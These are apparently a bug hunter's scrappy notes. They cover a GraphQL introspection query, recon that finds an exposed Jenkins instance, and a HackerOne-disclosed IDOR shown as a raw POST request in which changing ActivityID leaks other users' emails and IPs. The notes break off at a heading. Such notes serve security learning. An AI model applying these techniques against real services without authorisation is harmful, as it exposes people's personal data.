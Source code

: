 Issuing the following requests will show you all the queries that are available on the endpoint.

>example.com/graphql?query={__schema{types{name,fields{name}}}}

use this according to previous 

>example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}} 

-----

### 1 -> 

  Link :- https://medium.com/@logicbomb_1/bugbounty-from-finding-jenkins-instance-to-command-execution-secure-your-jenkins-instance-9bd1e75c2288

 Every hack, every pentesting starts with recon (information gathering) so this - finding subdomain, open ports/services, public server IPs are some parts of
 it. In order to find public server IPs, one of the tools I generally rely on is https://censys.io/.

 server name here was Jetty:8080 which gave me a glimpse that it might have Jenkins running on it (usually because it’s running on a 
 standard port 80/443/8080/8443 on Jetty)

 he opened it and it was publicly accessible  

---------

### 2 ->  Leaking Info of other user when it collect activity

Link :- https://hackerone.com/reports/321249

- sign in the forum and send a comment on your dashboard/activities . the request should look like this:
```
POST /dashboard/activity/comment HTTP/1.1
Host: 9thsecurity.vanillaforums.com
User-Agent:
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer:
Content-Length: 132
Cookie:
Connection: close

TransientKey=LgFniB9ii5sAgDbG&hpt=&ActivityID=1021&Return=activity%2Fpost%2F127'&Body=anything&DeliveryType=VIEW&DeliveryMethod=JSON
```

- In this we can change value of activityID and that leads to leak info like the  email ip address of some  other user .

-----------------
### 3 ->  Million user Information Leaks
